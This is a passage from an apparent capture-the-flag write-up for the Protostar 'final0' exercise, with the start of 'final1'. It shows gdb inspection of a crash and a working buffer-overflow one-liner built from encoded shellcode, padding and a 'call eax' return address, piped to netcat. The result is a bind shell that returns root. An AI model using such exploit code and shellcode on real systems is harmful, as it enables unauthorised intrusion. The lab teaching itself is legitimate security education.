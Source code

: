 It seems that the only valid "call eax" address is "0x08048d5f". We can use this address as the return address so we can jump to the address pointed by **eax** where our shellcode will be waiting for us:

Lets verify what is in the memory pointed by eax:

```lang-bash line-numbers 
root@protostar:~# gdb -q -c /tmp/core.11.final0.21781
Core was generated by `/opt/protostar/bin/final0'.
Program terminated with signal 11, Segmentation fault.
#0  0x44444444 in ?? ()
(gdb) i r eax
eax            0x804b008	134524936
(gdb) x/10x $eax
0x804b008:	0x41414141	0x41414141	0x41414141	0x41414141
0x804b018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804b028:	0x41414141	0x41414141
(gdb) x/10x $eax -4
0x804b004:	0x00000209	0x41414141	0x41414141	0x41414141
0x804b014:	0x41414141	0x41414141	0x41414141	0x41414141
0x804b024:	0x41414141	0x41414141
```

So our A buffer starts right at the address pointed by eax, nice!

We need a shellcode not containing lower case characters (within 0x61-0x7a range) so we will be using this [shellcode](http://www.exploit-db.com/exploits/13427/)

```lang-bash line-numbers 
user@protostar:~$ echo `python -c 'print("\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xedDBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKBAFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIAJDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJOBLAALMNIA" + "A"*306 + "\x5f\x8d\x04\x08" + "\n")'` | nc localhost 2995
```

Now from a different terminal:

```lang-bash line-numbers 
root@protostar:~# nc localhost 5074
id
uid=0(root) gid=0(root) groups=0(root)
```

## Final1

First we need how to interact with the application which is expecting a username and then "login" followed with a password:

```lang-bash line-numbers 
user@protostar:~$ nc localhost 2994
[final1] $ username alvaro
[final1] $ login passwd
login failed
```

If we look at the syslog:
